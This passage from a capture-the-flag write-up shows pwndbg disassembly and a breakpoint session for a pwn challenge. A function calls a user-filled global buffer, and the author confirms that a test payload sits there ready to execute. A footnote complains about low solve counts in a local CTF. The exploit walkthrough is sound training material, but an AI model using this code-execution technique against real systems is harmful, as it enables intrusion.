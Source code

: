 Disassemble the `kids_are_not_allowed_here()` function

```c
pwndbg> disassemble kids_are_not_allowed_here 
Dump of assembler code for function kids_are_not_allowed_here:
=> 0x000000000040090c <+0>:     push   rbp
   0x000000000040090d <+1>:     mov    rbp,rsp
   0x0000000000400910 <+4>:     sub    rsp,0x10
   0x0000000000400914 <+8>:     lea    rax,[rip+0x34d]        # 0x400c68
   0x000000000040091b <+15>:    mov    QWORD PTR [rbp-0x8],rax
   0x000000000040091f <+19>:    mov    rax,QWORD PTR [rbp-0x8]
   0x0000000000400923 <+23>:    mov    rdi,rax
   0x0000000000400926 <+26>:    call   0x400720 <strlen@plt>
   0x000000000040092b <+31>:    mov    rdx,rax
   0x000000000040092e <+34>:    mov    rax,QWORD PTR [rbp-0x8]
   0x0000000000400932 <+38>:    mov    rsi,rax
   0x0000000000400935 <+41>:    mov    edi,0x1
   0x000000000040093a <+46>:    call   0x400700 <write@plt>
   0x000000000040093f <+51>:    lea    rdx,[rip+0x2016fa]        # 0x602040 <ans>
   0x0000000000400946 <+58>:    mov    eax,0x0
   0x000000000040094b <+63>:    call   rdx
   0x000000000040094d <+65>:    nop
   0x000000000040094e <+66>:    leave
   0x000000000040094f <+67>:    ret
End of assembler dump.
```

 Set a breakpoint at the `call rdx` instruction at `0x000000000040094b` and continue execution within the `kids_are_not_allowed_here()` funtion. 
 Note our payload buffer intact in the address pointed to by RDX

```c
pwndbg> b * 0x000000000040094b
Breakpoint 2 at 0x40094b
pwndbg> c
Continuing.

Breakpoint 2, 0x000000000040094b in kids_are_not_allowed_here ()
LEGEND: STACK | HEAP | CODE | DATA | RWX | RODATA
────────────────────────────────────────────[ REGISTERS / show-flags off / show-compact-regs off ]─────────────────────────────────────────────
*RAX  0
 RBX  0x7ffe3275dbf8 —▸ 0x7ffe3275e4f5 ◂— '/home/kidd/Desktop/WORK/bsides24/pwn/classroom'
*RCX  0x7f4054f394e0 (write+16) ◂— cmp rax, -0x1000 /* 'H=' */
*RDX  0x602040 (ans) ◂— 'aaaabaaacaaadaaaeaaafaaagaaahaaaiaaajaaakaaalaaamaaanaaaoaaapaaaqaaaraaasaaataaauaaavaaawaaa\n'
*RDI  1
*RSI  0x400c68 ◂— push rdi
*R8   4
 R9   7
 R10  7
*R11  0x202
 R12  0
 R13  0x7ffe3275dc08 —▸ 0x7ffe3275e524 ◂— 'PWD=/home/kidd/Desktop/WORK/bsides24/pwn'
 R14  0x7f405508c000 (_rtld_global) —▸ 0x7f405508d2c0 ◂— 0
 R15  0
*RBP  0x7ffe3275dac8 ◂— 0x9090909090909090
*RSP  0x7ffe3275dab8 ◂— 0x9090909090909090
*RIP  0x40094b (kids_are_not_allowed_here+63) ◂— call rdx
─────────────────────────────────────────────────────[ DISASM / x86-64 / set emulate on ]──────────────────────────────────────────────────────
 ► 0x40094b <kids_are_not_allowed_here+63>    call   rdx                         <ans>
        rdi: 1
        rsi: 0x400c68 ◂— push rdi
```

[^Rant]: And ok, yeah, it was not a big event, nor was the CTF any larger. But only 3 solves? What's the play here? Everybody else is killing it out there in CTFs and IRL, and we are doing what exactly? Yes, there are teams from GR that are having success in global events, of course. But how are these teams seeded if in entry level events we are failing at the obvious? How is this not a problem, both for the scene and the security industry altogether?